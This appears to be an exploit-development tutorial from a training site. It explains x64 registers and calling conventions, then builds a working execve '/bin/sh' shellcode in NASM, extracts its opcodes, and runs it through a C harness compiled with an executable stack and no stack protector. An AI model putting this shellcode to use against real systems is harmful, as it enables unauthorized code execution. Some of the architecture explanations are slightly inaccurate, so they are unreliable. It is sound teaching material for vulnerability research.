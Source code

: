 :orphan:
(linux-exploitation-x64-shellcode)=

# Linux Exploitation: x64 shellcode

Let's try to write a `64-bit` Linux shellcode.

Before we can do that, let's lay the groundwork for the distinctions between the `x86` and `x64` architectures.

## x64 Architecture

The `64-bit` architecture is the result of hardware advancements to which software had to adapt.

The `32-bit` architecture provides registers and addresses with a size of `32 bits` (`4 bytes`).
In this manner, the address space is constrained by the `8-bit` value.

The amount of memory accessible with `64-bit` is significantly greater. As `64-bits` are equivalent to `8 bytes`, all registers and addresses on a `64-bit` architecture are double the size.

In addition, the number of registers in `64-bit` processors has grown.

As they are also larger, they have been given a new naming convention; their names all begin with `"R"`

Thus, in place of `EAX`, `EBX`, and `ECX`, there are `RAX`, `RBX`, and `RCX`. They are all `64 bits` (`8 bytes`) wide.

The individual sections of a register are directly accessible. On `64-bit` architectures, you can refer to `EAX` of `RAX` in the same way that you could access `AH` or `AX` of `EAX` on `32-bit` architectures.

In addition, a number of new general-purpose registers were added to facilitate more complex operations.

In x64, the following registers exist:

```nasm
rax ; register a extended
rbx ; register b extended
rcx ; register c extended
rdx ; register d extended
rbp ; register base pointer
rsp ; register stack pointer
rsi ; register source index
rdi ; register destination index
```

And the new registers are:

```nasm
r8 ; register 8
r9 ; register 9
r10 ; register 10
r11 ; register 11
r12 ; register 12
r13 ; register 13
r14 ; register 14
r15 ; register 15
```

The existence of new registers also influences the manner in which functions are called. No additional arguments are added to the stack.

Instead, the first six arguments are passed to a function as follows:

- `rdi, rsi, rdx, rcx, r8d, r9d`
- The remainder of the arguments are passed through the stack.

From the perspective of exploit development, all these changes present a new obstacle:

- A vast address space makes brute-force attacks difficult, if not impossible.

- As function arguments are not taken from the stack, `Ret2Libc` and similar attacks are limited. Before calling a function, the attacker must execute code that loads the parameters into the appropriate registers.

When dealing with buffer overflows on `x64` systems, you may also encounter instances in which the mapped address space is constrained by a `6-byte` hex number. This indicates that you cannot overwrite the `EIP` with `0x4141414142424242`.

The only address available will be `0x0000414243444546`, so exploit buffers must terminate after overwriting the `EIP`.

Exploiting `64-bit` systems is commonly associated with Return Oriented Programming and is regarded as a complex topic. In [this course](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html), you will practice exploitation techniques against both insecure and secure `x64` Linux systems.

While `x64` itself is difficult to exploit, `x64` shellcoding is significantly simpler.

## Writing x64 shellcode

On a 64-bit platform, we will continue to use `nasm`, `gcc`, and `binutils` to build shellcode:

```bash
sudo apt-get install nasm binutils gcc
```

Additionally, we will utilize the same shellcode tester application:

```cpp
#include <stdio.h>
#include <string.h>

unsigned char code[] = "\x48\x31\xd2\x52....";

int main() {
    printf("shellcode length: %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

This time, we will create `64-bit` Assembly code.

Note that `32-bit` applications can run on `64-bit` systems, but `64-bit` applications cannot run on `32-bit` systems.

A bash-spawning shellcode's Assembly code will be comparable to the `32-bit` version. We will use the `execve` system call that begins a process, place its arguments in the appropriate registers, and then execute the `syscall` instruction (on `x64`, this is replaced by the `0x80` instruction).

First, we will start with the proper syscall. For `execve` on `x64`, it is `59`:

```bash
vim /usr/include/x86_64-linux-gnu/asm/unistd_64.h
```

![asm](images/2022-06-05_17-04.png)

On `x64`, the arguments did not change. Still, the first argument is the program to be executed, the second is the program's arguments, and the third is the program's environment variables.

As with `32-bit` shellcode, we need only point the first argument to `"/bin/bash"` and leave the remaining two arguments blank (`NULL`).

Before executing the syscall, the syscall number must be placed in `RAX`, while `RDI`, `RSI`, and `RDX` contain the arguments to execute.

Therefore, `RDI` will contain a pointer to `"/bin/sh"` and `RSI` will contain a pointer to an array of strings (arguments).

In this instance, we will not pass any arguments or environment variables to the program we wish to launch, so the only element of that array will be a nested pointer to the `/bin/sh` address (pointer to pointer).

`RDX`, the final argument, can be null.

Let's begin writing Assembly code. You will notice that it differs little from the `x86` version:

```nasm
section .text
  global _start               ; we inform the system where the program begins

_start:
  xor rdx, rdx                ; zero out rdx
  push rdx                    ; push it onto the stack
  mov rax, 0x68732f2f6e69622f ; we can push „hs//nib/” as one value, after all it is 64-bit
  push rax                    ; we push it onto the stack, so it lands at some address on the stack
  mov rdi, rsp                ; that address is where esp points to, so we store it in rdi => pointer to „/bin/sh”
  push rdx                    ; we push 0, as it will be the null termination of the array
push rdi                      ; the address of „/bin/sh” is pushed onto the stack, it lands under another stack address
mov rsi, rsp                  ; we store that address into rsi. So rsi contains a pointer to a pointer to „/bin/sh”
xor rax, rax                  ; zero out eax to keep it clean
mov al, 0x3b                  ; 59 DEC, we move it to the lowest eax part to avoid nulls.
syscall                       ; all arguments are set up, syscall time
```

Compilation is similar to what we did for `x86`, with the exception that we will instruct the compiler to generate an `x64` executable:

```bash
nasm -f elf64 -o shellcode.o shellcode.asm
ld -m elf_x86_64 -s -o shellcode shellcode.o
```

![asm](images/2022-06-05_17-11.png)

Let's extract the opcodes from the executable using the `extractor.sh` script:

```bash
#!/bin/bash
if [ -z "$1" ]
then
    echo "Usage: $0 <path to executable>"
    exit
fi

objdump -d $1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

or just command:

```bash
objdump -d ./shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

![a](images/2022-06-05_17-15.png)

Then, we will copy and paste them into the shellcode tester application. Here is the complete shellcode tester program's source code:

```cpp
#include <stdio.h>
#include <string.h>

unsigned char code[] = "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05";

int main() {
    printf("shellcode length: %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

Now, we compile it to test whether the shellcode works:

```bash
gcc -m64 -z execstack -fno-stack-protector -o run run.c
```

![a](images/2022-06-05_17-18.png)

Then, run:

```bash
./run
```

![asmfinal](images/2022-06-05_17-23.png)

As you can see, shellcoding in `x86` and `x64` is comparable. However, the Assembly code must be modified according to the rules enforced by the underlying architecture.

It boils down to calling the appropriate syscalls and setting their arguments in the correct order.

[x64 syscalls](https://x64.syscall.sh/)

[x86 syscalls](https://x86.syscall.sh/)

> **Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html). In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.**
